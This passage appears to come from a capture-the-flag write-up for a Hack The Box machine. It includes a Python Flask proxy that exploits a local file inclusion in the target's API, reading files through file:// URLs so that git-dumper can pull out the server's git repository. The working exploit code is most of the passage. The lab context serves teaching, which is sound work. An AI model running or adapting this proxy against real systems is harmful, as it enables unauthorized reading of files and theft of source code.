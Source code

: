 ```php
    return $commit;
}
?>
```
So, judging by the git* functions, `/var/www/image` is a git repository. Now, i would like to use a tool like [gitdumper](https://github.com/arthaud/git-dumper) to dump the contents of this repository. I can only access using the LFI, and not directly. To get around this, i will start a webserver on my localhost, where any request to $path will perform the LFI at `/var/www/image/$path`. This should allow gitdumper to dumo the repo. The webserver code in python:
```python
from flask import Flask
import json
import requests
from base64 import b64decode
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def redirect(path):
    json_data = {
        'action': 'b64encode',
        'file_url' : f'file:///var/www/image/{path}'

    }

    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)

    resp_json = json.loads(response.text)

    text =  b64decode(resp_json["data"]).decode()

    return text

if __name__ == "__main__":
    app.run("0.0.0.0")
```
